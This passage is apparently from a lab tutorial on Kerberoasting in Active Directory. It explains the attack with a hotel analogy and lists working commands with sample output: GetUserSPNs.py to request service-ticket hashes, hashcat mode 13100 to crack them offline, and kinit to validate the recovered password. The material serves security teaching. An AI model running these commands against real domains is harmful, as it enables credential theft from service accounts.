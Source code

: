 Attackers skip step 4 and grab the encoded room-key (TGS) in step 3. They then try all possible room combinations (password guesses) offline until the key unlocks, revealing the service account’s password.

#### Key Concepts

-   **Service Account**: A special account that services (like SQL, HTTP) use – akin to a hotel room’s lock code.
    
-   **Service Principal Name (SPN)**: The official room number registered in the hotel directory (e.g., `HTTP/SRV1.lab.local`).
    
-   **Ticket Granting Service (TGS)**: The encoded room-key for that SPN.
    
-   **Offline Cracking**: Trying password guesses against the encrypted ticket without talking to the hotel staff (DC), avoiding alarms.
    

#### Tools & Commands

-   **GetUserSPNs.py** (Impacket)
    
    ```bash
    # Step 1: Request TGS for all SPN accounts
    GetUserSPNs.py -request -dc-ip dc1.lab.local lab.local/DOMAINUSER:Pass > spn.hashes
    
    ```
    
    _Expected Output_: `Hash for svc_http@LAB.LOCAL saved in spn.hashes`
    
-   **hashcat**
    
    ```bash
    # Step 2: Crack TGS hashes offline (mode 13100)
    hashcat -m 13100 spn.hashes wordlist.txt
    
    ```
    
    _Expected Output_: `Recovered: svc_http:P@ssw0rd123`
    
-   **kinit**
    
    ```bash
    # Step 3: Validate cracked password by obtaining a TGT
    kinit svc_http@LAB.LOCAL
    
    ```
    
    _Expected Output_: No error; new ticket in cache.
    

#### Step-by-Step Guide

1.  **Discover SPN Accounts**
    